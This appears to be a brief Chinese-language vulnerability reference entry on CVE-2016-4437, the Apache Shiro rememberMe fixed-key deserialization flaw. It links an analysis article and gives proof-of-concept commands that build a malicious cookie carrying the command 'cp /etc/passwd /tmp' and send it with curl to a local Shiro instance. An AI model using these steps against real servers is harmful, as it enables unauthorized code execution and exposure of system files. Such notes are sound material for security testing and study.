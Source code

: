 ### CVE-2016-4437 - Shiro rememberMe cookie 固定秘钥反序列化漏洞

参考链接

* [Apache Shiro Java 反序列化漏洞分析](http://blog.knownsec.com/2016/08/apache-shiro-java/)

Poc

```
# 使用 jdku21 gadget

python2.7 /root/build-cookie.py "cp /etc/passwd /tmp"
curl 127.0.0.1/shiro/ -H "Cookie: $(cat /tmp/cookie.txt)"
```

